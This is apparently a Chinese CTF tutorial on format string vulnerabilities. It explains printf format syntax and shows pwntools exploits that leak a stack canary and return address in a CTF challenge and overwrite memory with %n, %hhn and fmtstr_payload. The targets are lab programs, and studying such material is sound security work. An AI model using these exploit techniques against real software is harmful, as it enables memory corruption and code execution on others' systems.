










# 格式化字符串漏洞

## 格式化字符串函数

接受可变数量的参数，将第一个参数作为格式化字符串，然后根据这个参数来解析其后的参数。通常用于输出信息、调试参数或处理字符串。利用时主要分为三个部分：

- 格式化字符串函数
- 格式化字符串
- 后续参数（可选）

### 种类

- 输入
	- scanf
- 输出

| 函数                       | 描述                    |
| ------------------------ | --------------------- |
| printf                   | 输出到 stdout            |
| fprintf                  | 输出指定的 FILE 流          |
| vprintf                  | 根据参数列表格式化输出到 stdout   |
| vfprintf                 | 根据参数列表格式化输出到指定 FILE 流 |
| sprintf                  | 输出到字符串                |
| snprintf                 | 输出指定字节到字符串            |
| vsprintf                 | 根据参数列表格式化输出到字符串       |
| vsnprintf                | 根据参数列表格式化输出指定字节到字符串   |
| setproctitle             | 设置 argv               |
| syslog                   | 输出日志                  |
| err, verr, warn, vwarn 等 | · · ·                 |

### 格式化字符串

格式化字符串结构如下
~~~c
%[parameter][flags][field width][.precision][length]type
~~~

- parameter
	- `n$` 用来说明显示第几个参数，任意一个占位符使用了 parameter ，则其余所有占位符也得使用 parameter
- flags
	- `+` 显示有符号数值的符号，缺省忽略正数的 `+` 。仅适用于数值
	- space 若有符号数值输出结果没有正负号或输出 0 个字符，将前缀 1 个空格。若space和 `+` 同时出现，则忽略 space
	- `-` 左对齐。缺省则右对齐
	- `#` 
		- `g` 不删除尾部 0
		- `f` 、`e`、`g`，总是输出小数点
		- `o`，`x`，在非零数值前分别输出前缀 0，0x 表示精度
	- `0` 在左侧以 0 填充以达到 width 参数要求。`0` 和 `-` 同时出现则忽略 `0`
- field width 输出的最小宽度
- precision 输出的最大长度
- length
	- `hh` 输出一个字节
	- `h` 输出一个双字节
- type
	- `d/i` 有符号整数
	- `u` 无符号整数
	- `x/X` 16 进制无符号整数
	- `o` 8 进制无符号整数
	- `s` 字符串
	- `c` 字符
	- `p` 打印指针
	- `n` 把已经成功输出的字符个数写入对应的整形参数所指向的变量
	- `%` 不接受任何 flags，width

### 参数

需要输出的变量

## 格式化字符串漏洞原理

格式化字符串函数是根据格式化字符串来进行解析的。那么相应的要被解析的参数的个数也自然是由这个格式化字符串所控制。在进入 printf 函数的之前 (即还没有调用 printf)，栈上的布局由高地址到低地址依次如下：



在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 `%`，直接输出到相应标准输出。
- 当前字符是 `%`，继续读取下一个字符
    - 如果没有字符，报错
    - 如果下一个字符是 `%`, 输出 `%
    - 否则根据相应的字符，获取相应的参数，对其进行解析并输出

若我们没有提供参数，则会将格式化字符串地址解析为对应的格式并输出

格式化字符串拥有三种利用方法：

- 使程序崩溃，因为 %s 对应的参数地址不合法的概率比较大。
- 查看进程内容，根据 %d，%f 输出了栈上的内容。
- 覆盖内存

## 程序崩溃

通常来说，利用格式化字符串漏洞使得程序崩溃是最为简单的利用方式，因为我们只需要输入若干个 %s 即可

## 泄露内存

利用格式化字符串漏洞，我们还可以获取我们所想要输出的内容。一般会有如下几种操作

- 泄露栈内存
    - 获取某个变量的值
    - 获取某个变量对应地址的内存
- 泄露任意地址内存
    - 利用 GOT 表得到 libc 函数地址，进而获取 libc，进而获取其它 libc 函数地址
    - 盲打，dump 整个程序，获取有用信息。

### 例子

以 [深育杯 2021]find_flag 为例，先 checksec 



64 位程序，保护全开。丢进ida, 程序中在偏移 **0x122E** 处存在后门，找到关键函数**sub_132F** 



发现其中存在格式化字符串漏洞和栈溢出漏洞，因此思路如下：

1. 计算格式化字符串在栈上的 offset
2. 通过漏洞泄露 rbp-8 处的 canary 和 rbp+8 处的返回地址
3. 通过返回地址计算程序运行的真实地址
4. 计算后门指令的真实地址
5. 利用 ret2text 获得flag

使用 gdb 调试出 offset，如下：



canary 和返回地址的在栈上偏移分别为 17 和 19 ，我们构造 `%17$p,%19$p` 来泄露对应的值，同时可以在 IDA 找到返回地址的偏移地址为 **0x146F**  


exp 如下：

```python
from pwn import *

p = remote("node4.anna.nssctf.cn",28516)

payload1 = "%17$p,%19$p"

p.sendlineafter("name? ",payload1)
p.recvuntil(", ")
re = p.recvuntil('!').decode().rstrip('!').split(',')
print(*re)
canary = int(re[0][2:],16)
return_addr = int(re[1][2:],16)
print('canary:%x'%canary)
print('return_address:%x'%return_addr)

base_addr = return_addr - 0x146F
backdoor_addr = base_addr + 0x122E

payload2 = b'a'*(0x40-0x8) + p64(canary) + b'a'*8 + p64(backdoor_addr)

p.sendlineafter("else? ",payload2)
p.interactive()
```

运行结果如下：



## 覆盖内存

只要变量对应的地址可写，我们就可以利用如下 type 的格式化字符串来修改其对应的数值。

- %n,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。

而无论是覆盖哪个地址的变量，我们基本上都是构造类似如下的 payload 

~~~
...[overwrite addr]....%[overwrite offset]$n
~~~

也可通过 pwntools fmtstr_payload 直接生成，但无论哪个都有如下步骤：

- 确定覆盖地址
- 确定相对偏移
- 进行覆盖

下面以 CTF Wiki 的 32 位程序为例

~~~c
#include <stdio.h>

int a = 123,b = 456;

int main(){ 
	int c = 789; 
	char s[100]; 
	
	printf("%p\n", &c); 
	scanf("%s", s); 
	printf(s); 
	
	if (c == 16) { 
		puts("modified c."); 
	} else if (a == 2) { 
		puts("modified a for a small number.");
	} else if (b == 0x12345678) { 
		puts("modified b for a big number!"); 
	}
	 
	return 0; 
}
~~~

### 覆盖栈内存

#### 确定覆盖地址

程序直接输出了 c 的地址，这步跳过

#### 确定相对偏移

用gdb打开，使用的 fmtarg 得到偏移为 6



#### 进行覆盖

由于 c 的地址长度为 4 ，构造 payload 如下

~~~c
[addr of c]%012d%6$n
~~~

exp：
~~~python
from pwn import *

context(arch='i386',os='linux',log_level)

p = process('./fmtstr')

c_addr = int(p.recvuntil('\n',drop=True),16)

payload = p32(c_addr) + b'%12d%6$n'

p.sendline(payload)
~~~

结果如下：



### 覆盖任意地址内存

#### 覆盖小地址

如果我们需要修改内存为**小于机器字长的数字**，如程序中的 a 需要覆盖为 2。此时不能将地址放在最开头，否则将直接占用 4 或 8 个字长，必然大于 0. 所以我们可以改变地址在 payload 的位置，同时需要修改我们使用的栈上的偏移。例如此题的 payload 构造：

~~~c
aa$8%naa[addr of a]
~~~

在占位符 `%8$n` 前使用 `aa` 保证修改的值为 2 ，而 offset 修改为 8 是由于 `aa$8` 和 `%naa` 各占了 4 字节，而 `aa$8` 的偏移为 6，进而推断出 a 的地址在栈上的偏移应该为 8。

最后 a 的地址**0x804C018**可以在 ida 中找到

exp：

~~~python
from pwn import *

context(arch='i386',os='linux',log_level)

p = process('./fmtstr')

payload = b'aa%8$naa' + p32(0x804C018)

p.sendline(payload)
~~~

结果：



#### 覆盖大地址

首先，所有的变量在内存中都是以字节进行存储的。此外，在 x86 和 x64 的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。同时，格式化字符串存在如下两个标志

- hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数
- h 对于整数类型，printf期待一个从short提升的int尺寸的整型参数

所以说，我们可以利用 %hhn 向某个地址写入单字节，利用 %hn 向某个地址写入双字节。这里，我们以单字节为例

我们可以从 ida 中得到 b 的地址 **0x804C01C** ，则 payload 大致如下

~~~c
p32(0x0804C01C)+p32(0x0804C01D)+p32(0x0804C01E)+p32(0x0804C01F)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'
~~~

可以通过如下模板计算：

~~~python
from pwn import *

context(arch='i386',os='linux',log_level)

p = process('./fmtstr')

def fmt(prev, word, index): 
	if prev < word: 
		result = word - prev 
		fmtstr = "%" + str(result) + "c" 
	elif prev == word: 
		result = 0 
	else: 
		result = 256 + word - prev 
		fmtstr = "%" + str(result) + "c" 
	
	fmtstr += "%" + str(index) + "$hhn" 
	return fmtstr.encode()

def fmt_str(offset, size, addr, target): 
	payload = b"" 
	
	for i in range(4): 
		if size == 4: 
			payload += p32(addr + i) 
		else: 
			payload += p64(addr + i) 
	
	prev = len(payload) 
	for i in range(4): 
		payload += fmt(prev, (target >> i * 8) & 0xff, offset + i) 
		prev = (target >> i * 8) & 0xff 
	
	return payload 
		
payload = fmt_str(6,4,0x0804C01C,0x12345678)

p.sendline(payload)
~~~

结果如下：



#### 使用 fmtstr_payload 构造 payload

fmtstr_payload 函数有如下参数

- **offset**(int): 控制的格式化字符串的第一个偏移
- **writes**(dict): 带有地址和对应值的字典 ``{addr: value, addr2: value2}``
- **numbwritten**(int): printf 函数已写入的字节数
- **write_size**(str): 必须为“byte”、“short”或“int”，告诉函数如何逐字节写入
- **overflows**(int): 允许多少额外溢出，用于减少格式化字符串的长度
- **strategy**(str):  'fast' 或 'small' , 默认为 small，fast 可用于有很多写入时 
- **no_dollars**(bool): 使用或不使用 $ 符号生成有效负载的标志

除 offset 和 writes 外通常省略，例如给 b 写入 0x12345678：

~~~python
from pwn import *

context(arch='i386',os='linux',log_level='debug')

p = process('./fmtstr')

payload = fmtstr_payload(6,{0x804C01C:0x12345678})

p.sendline(payload)
~~~

结果如下：

